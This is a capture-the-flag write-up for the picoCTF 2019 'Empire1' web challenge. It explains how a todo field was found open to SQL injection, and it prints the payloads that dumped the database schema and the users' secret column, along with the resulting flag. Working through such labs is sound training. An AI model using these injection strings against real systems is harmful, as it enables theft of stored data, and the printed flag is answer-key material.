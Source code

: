 # Empire1

Point: 400

## Category

Web Exploitation

## Question

Psst, Agent 513, now that you're an employee of Evil Empire Co., try to get their secrets off the company website. [https://2019shell1.picoctf.com/problem/37779/](https://2019shell1.picoctf.com/problem/37779/) [\(link\)](https://2019shell1.picoctf.com/problem/37779/) Can you first find the secret code they assigned to you? or [http://2019shell1.picoctf.com:37779](http://2019shell1.picoctf.com:37779)

## Hint

* Pay attention to the feedback you get 
* There is _very_ limited filtering in place - this to stop you from breaking the challenge for yourself, not for you to bypass.
* The database gets reverted every 2 hours if you do break it, just come back later

## Solution

After registered and signed in, we've seen a nav bar with `Add a Todo`, `Your Todos`, `Employee Listing`. It doesn't seem to contain any vulnerability.

Trying to add something to `TODO`, we've got this

```bash
<h1 class="page-header">Things You Gotta Do</h1>
    <ul class="list-unstyled">    
    <div class="row">
        <div class="col-md-6">
            <div class="well well-sm">
                <li>
                <strong>Very Urgent:</strong> Hello
                </li> 
            </div>
        </div>
    </div>
```

We've seen `The "Very Urgent:" prefix is automatically prepended to any text provided by the user.` After trying different strategies, I found that the page is vulnerable to SQL injection using the following syntax: `'||(SQL)||'`

The first time, I've tried with `' || (SELECT group_concat(sql) FROM sqlite_master) || '`, then we got this

```bash
CREATE TABLE user ( id INTEGER NOT NULL, username VARCHAR(64), name VARCHAR(128), password_hash VARCHAR(128), secret VARCHAR(128), admin INTEGER, PRIMARY KEY (id) ),CREATE UNIQUE INDEX ix_user_username ON user (username),CREATE TABLE todo ( id INTEGER NOT NULL, item VARCHAR(256), user_id INTEGER, PRIMARY KEY (id), FOREIGN KEY(user_id) REFERENCES user (id) )
```

I saw `secret VARCHAR(128)`, then I tried `' || (SELECT group_concat(secret) FROM user) || '`. BOOM!, go to `Your Todos` tab, we got the flag `Very Urgent: Likes Oreos.,Know it all.,picoCTF{wh00t_it_a_sql_injecta4dfbd62}`

## Flag

picoCTF{wh00t\_it\_a\_sql\_injecta4dfbd62}


